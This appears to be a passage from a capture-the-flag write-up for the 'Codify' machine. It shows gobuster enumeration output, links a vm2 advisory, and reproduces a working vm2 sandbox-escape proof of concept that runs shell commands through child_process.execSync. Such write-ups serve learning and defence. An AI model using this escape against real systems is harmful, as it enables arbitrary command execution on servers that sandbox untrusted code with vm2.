 ```sh
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/editor               (Status: 200) [Size: 3123]
/about                (Status: 200) [Size: 2921]
/.                    (Status: 200) [Size: 2269]
/About                (Status: 200) [Size: 2921]
/Editor               (Status: 200) [Size: 3123]
/server-status        (Status: 403) [Size: 275]
/ABOUT                (Status: 200) [Size: 2921]
Progress: 63088 / 63089 (100.00%)
===============================================================
Finished
===============================================================
```




# Initial Access
https://github.com/advisories/GHSA-ch3r-j5x3-6q2m

PoC: https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244

- Go to vm2 github -> Security tab
- Try the ones that do not return `object Promise`
![[/assets/images/codify4.png]]

https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac
```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo hacked").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

